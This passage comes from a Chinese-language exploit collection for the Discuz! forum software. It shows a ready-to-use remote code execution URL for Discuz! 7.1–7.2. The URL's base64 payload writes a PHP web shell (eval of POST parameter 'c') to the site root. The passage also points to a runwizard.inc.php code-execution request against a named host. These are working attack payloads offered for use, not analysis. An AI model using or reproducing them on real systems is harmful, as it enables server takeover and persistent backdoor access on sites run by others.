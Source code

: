 然后提交，就执行了<?php phpinfo();?>

![](https://github.com/cckuailong/PocCollect/blob/master/Web/Discuz/image/66.png)

参考链接：https://www.seebug.org/vuldb/ssvid-93612
#### 演示7：Discuz! 7.1 - 7.2 远程代码执行漏洞
直接GET，利用语句：
http://xxxxx/misc.php?action=imme_binding&response[result]=aa:b&scriptlang[aa][b]={${fputs(fopen(base64_decode(Yy5waHA),w),base64_decode(PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz4x))}}   

在根目录生成C.PHP密码是C

参考链接：
http://blog.51cto.com/simeon/276114

https://www.jb51.net/hack/26337.html
#### 演示8：discuz 7.0 runwizard.inc.php 代码执行漏洞
在该链接下：http://www.80vul.com/bbs/admincp.php?action=runwizard&step=3
发送如下POST请求包。

![](https://github.com/cckuailong/PocCollect/blob/master/Web/Discuz/image/67.png)
